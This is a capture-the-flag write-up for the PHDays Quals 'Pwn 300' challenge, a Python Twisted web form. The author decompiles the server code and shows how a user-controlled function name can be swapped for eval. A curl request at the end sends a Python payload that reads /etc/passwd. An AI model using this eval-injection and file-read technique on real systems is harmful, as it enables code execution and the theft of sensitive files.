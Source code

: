 # PHDays Quals Pwn 300

PWN 300 is a 'south park administration' website.

It only has a form:

* Select between {Kenny, Stan, Kyle, Eric, Butters, Token}
* Radio buttons for {Kill, Arrest, Bankrupt}
* Submit button

Click submit, and it'll return a message like `Kenny was killed`,
depending on the input.

The html source code provides a comment, stating that **the flag is inside
of /etc/passwd**. We are also given the source code for this.

**web.py** is a python twisted web server. It puts together the
arguments from the request and passes it to a function in the other
file. The main web page is hard coded as a string inside of this file.

**process.pyc** is compiled python that web.py makes use of.

First, we decompile process.pyc to get process.py. Thanks [unpyc](http://code.google.com/p/unpyc/). There is one issue with the decompiled code. A line inside of the 'create_function' function in process.py reads: 

    consts = ((None,) + (human))

Which doesn't work. Change it so that it does what it probably was meant
to do.

    consts = tuple([None, human])

Now it is possible to run web.py locally and have the same output as the
online version.

**process.py** provides a function that dynamically builds up another
function.  When the function is called, it returns the string that
web.py feeds back to the user. It builds up an list of information for
a function, passes them into types.codeType to generate a python code
object. Passes the python code object into types.FunctionType to create
a function. Calls the resultant function and passes the resultant string
back to the user. It turns out that we don't actually need to understand
how python code objects work to exploit this.

Here is the bottom of process.py, which is all that we actually need to
exploit this.

    def kill(name):
        return ('%s was killed' % name)

    def arrest(name):
        return ('%s was arrested' % name)

    def bankrupt(name):
        return ('%s was bankrupted' % name)

    def process(args):
        actions = tuple(args['actions'])
        choice = args['choice'][0]
        human = args['human'][0]
        return create_function('myfunc', 0, choice, actions, human)()

When printed, args looks like this (depends on what the web client passes in):

    kill kenny   {'actions': ['kill', 'arrest', 'bankrupt'], 'human': ['Kenny'], 'choice': ['\x00']} 

Based on the value inside of 'choice', process.py will choose one of the
options inside of 'actions', which correspond to function names to use
in the dynamically generated function. The first value inside of 'human'
gets passed in as an argument. We can replace one of the functions with
eval. We want args to look like:

    {'actions': ['eval', 'arrest', 'bankrupt'], 'human': ['str(open("/etc/passwd"))'], 'choice': ['\x00']}

Construct a request to send in these parameters:

    $ curl -d "actions=eval&actions=arrest&human=str(open(\"/etc/passwd\").read())&choice=%00" http://ctf.phdays.com:2137

And it dumps /etc/passwd, which contains the flag in plaintext
